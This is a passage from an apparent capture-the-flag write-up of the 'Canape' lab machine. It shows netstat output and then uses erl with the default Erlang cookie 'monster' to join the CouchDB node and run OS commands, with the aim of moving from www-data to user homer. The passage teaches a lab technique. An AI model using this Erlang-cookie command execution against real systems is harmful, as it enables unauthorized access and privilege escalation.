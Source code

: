 

We also see that CouchDB is running as homer.

If we look at the ports listening on canape, we see not only both
CouchDB ports, but also that epmd is listening on 4369 (we'll cheat here
and show the output from a root shell to see the processes):



    # netstat -nlpt
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:65535           0.0.0.0:*               LISTEN      918/sshd
    tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      815/beam
    tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      815/beam
    tcp        0      0 0.0.0.0:44135           0.0.0.0:*               LISTEN      815/beam
    tcp        0      0 0.0.0.0:34416           0.0.0.0:*               LISTEN      1959/beam
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1058/apache2
    tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      825/epmd
    tcp6       0      0 :::65535                :::*                    LISTEN      918/sshd
    tcp6       0      0 :::4369                 :::*                    LISTEN      825/epmd



We can connect to epmd with erl, The Erlang Emulator. We need to give it
two parameters. `-sname` can be anything, just what we are known as in
the cluster. `-setcookie` is the auth from the warning on the CouchDB
site. erl throws an error if our `HOME` variable isn't set, but that's
easy enough to fix:



    www-data@canape:/$ HOME=/ erl -sname 0xdf -setcookie monster
    Eshell V7.3  (abort with ^G)
    (0xdf@canape)1>



Erlang has an [os module](http://erlang.org/doc/man/os.md) which can
be used to call system-specific functions. So if we run it here, we get
the results from our current process:



    (0xdf@canape)1> os:cmd("whoami").
    "www-data\n"



Erlang also has an [rpc module](http://erlang.org/doc/man/rpc.md). It
has a call function that takes a node, module, function, and arguments.
We can use that to run commands through the CouchDB process.

If we check our current nodes, it's empty:



    (0xdf@canape)2> nodes().
    nodes().


